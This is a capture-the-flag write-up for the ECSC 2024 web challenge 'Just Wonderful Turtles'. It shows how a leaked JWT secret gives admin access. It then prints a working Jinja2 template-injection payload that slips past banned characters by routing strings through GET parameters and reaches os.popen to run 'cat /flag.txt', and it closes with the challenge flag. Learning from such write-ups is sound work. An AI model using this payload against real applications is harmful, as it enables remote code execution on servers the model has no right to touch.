 # [web - Just Wonderful Turtles](https://hack.cert.pl/challenge/justwonderfulturtles)

In one of the picture's comments, there is a leaked JWT secret. Using it, you can log in as an admin. On the admin's page, there is an SSTI vulnerability in the admin's username. Admin verification is based on `.startswith("admin")`, so you can inject code after the word `admin` in the username. However, 4 characters are banned: `|`, `_`, `"`, `'`, which makes it tricky. You can use request GET parameters as keys of dicts instead.

#### Username payload
```
admin{{ request[request.args.a][request.args.b][request.args.c][request.args.d](request.args.e).popen(request.args.f).read() }}
```

#### GET request
```
https://turtles.ecsc24.hack.cert.pl/admin?a=application&b=__globals__&c=__builtins__&d=__import__&e=os&f=cat%20/flag.txt
```

The whole solution is in `sol.py`.

### Flag
```
ecsc24{turt13s_REa1lY_r0ck!}
```